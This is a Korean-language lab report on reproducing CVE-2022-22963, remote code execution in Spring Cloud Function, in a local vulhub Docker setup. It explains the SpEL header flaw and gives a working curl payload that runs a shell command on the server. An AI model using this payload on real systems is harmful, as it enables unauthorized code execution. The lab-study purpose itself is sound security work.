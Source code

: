 # CVE-2022-22963 - Spring Cloud Function 원격 코드 실행 (RCE) PoC 보고서

## 개요

CVE-2022-22963은 Spring Cloud Function 3.1.6 이하 및 3.2.2 이하 버전에서 발생하는 **원격 코드 실행(RCE)** 취약점이다.  
공격자는 **`spring.cloud.function.routing-expression`** HTTP 헤더에 Java 표현식을 삽입하여 서버 측에서 원격으로 임의의 코드를 실행할 수 있다.

---

## 실습 환경

| 항목 | 내용 |
|------|------|
| OS | macOS (ARM64, Apple Silicon) |
| Docker | 24.x (에뮬레이션 기반 amd64 컨테이너 실행) |
| 실습 대상 | Spring Cloud Function 3.2.2 |
| CVE ID | CVE-2022-22963 |
| GitHub 레포 | [vulhub](https://github.com/vulhub/vulhub) (sparse checkout 사용) |

---

### ✔️ 취약점 원인

- Spring Cloud Function은 요청을 라우팅할 때,  
  `spring.cloud.function.routing-expression`이라는 헤더를 읽어 SpEL(Spring Expression Language)을 해석함
- 이 필드에 Java의 `Runtime.getRuntime().exec()` 호출 같은 명령이 들어오면,  
  **해당 명령어를 실행시켜버림** (보안 필터링 없음)
- 즉, 공격자는 **HTTP 요청만으로 서버 내에서 임의 명령어를 실행할 수 있음**

### ✔️ 공격 흐름

1. 공격자가 POST 요청에 악성 헤더 삽입  
2. Spring 서버가 해당 SpEL을 파싱하여 함수로 인식  
3. Java `Runtime.exec()` 호출됨 → 명령어 실행  
4. 명령어 실행 결과는 로그나 파일로 확인 가능

---

## ⚙️ PoC 환경 구성

### 1. 취약한 Docker 환경 다운로드 (sparse checkout)

```bash
mkdir vulhub-cve
cd vulhub-cve
git init
git remote add origin https://github.com/vulhub/vulhub.git
git config core.sparseCheckout true
echo "spring/CVE-2022-22963" >> .git/info/sparse-checkout
git pull origin master
cd spring/CVE-2022-22963
```

### 2.
```bash
curl -X POST http://localhost:8080/functionRouter \
  -H "spring.cloud.function.routing-expression: T(java.lang.Runtime).getRuntime().exec(new String[]{\"sh\", \"-c\", \"id > /tmp/id.txt\"})" \
  -H "Content-Type: text/plain" \
  --data 'test'
```

### 3. 확인
<img width="1466" alt="image" src="https://github.com/user-attachments/assets/f811c6c4-c346-4254-9d2b-a3086f9f2a8c" />

```bash
docker exec -it cve-2022-22963-spring-1 bash
cat /tmp/id.txt
```
